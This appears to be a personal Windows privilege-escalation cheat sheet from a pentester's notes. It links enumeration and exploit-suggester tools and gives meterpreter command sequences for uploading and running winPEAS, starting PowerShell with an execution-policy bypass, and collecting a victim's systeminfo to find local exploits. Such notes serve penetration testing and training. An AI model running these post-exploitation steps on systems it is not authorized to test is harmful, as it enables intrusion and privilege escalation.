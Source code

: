 ## Executables

### WinPEAS 
[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

```sh
 meterpreter>> 
 >> cd c:\\windows\tmp
 >> upload <~/path/to/winPeasfile>
 >> pwd
 >> 
 >> shell
 >>> winPEAS.exe
 
 # if nothing happens after running, check .net version support in the windows. This script wont work if the machine doesnt support dotnet v4.
```

### Seatbelt 
[https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)

### Watson 
[https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)

### SharpUp 
[https://github.com/GhostPack/SharpUp](https://github.com/GhostPack/SharpUp)


## PowerShell

### Sherlock 
[https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)

### PowerUp 
[https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
```sh
meterpreter>> 
>> shell
>>> powershell -p bypass
# if the session hangs or dont response, then its windows blicking the powershell from running. Might have to restart the session.

# Alternate method to run powershell using metasploit.
Meterpreter>>
>> load powershell
# try to get powershell this way. if this fails then windows will be blocking it.

# Powesploit commands not added. Add later.
```

### JAWS 
[https://github.com/411Hall/JAWS](https://github.com/411Hall/JAWS)


## Others

### Windows Exploit Suggester 
[https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
```sh

meterpreter>>
>> shell
>> systeminfo
# Copy the systeminfo of victim mahine and save it in a text file to feed it to exploit suggester later.


# Clone the repository from github to local machine<attacker machine>

# Update the tool
> ./windows-exploit-suggester.py --update
# After update, current database (dbname-mssb.xls) will be printed out in the output. will have to use later.

# upgrade the xlrd
> pip install xlrd --upgrade

>./windows_exploit_suggester.py --database <current db-mssb.xls> --systeminfo <sysinfofile.txt>
```

### Metasploit Local Exploit Suggester 
[https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)
```sh
meterpreter>>
>> run post/multi/recon/local_exploit_suggester

# Ta Da !! 
# Copy and keep all the exploitable vulnerabilities from metasploit exploit suggester in a file for later use.

# also save the system information in a text file for later use.

>> shell
>> systeminfo
```

## Checklist

### Windows PrivEsc Checklist 
[https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)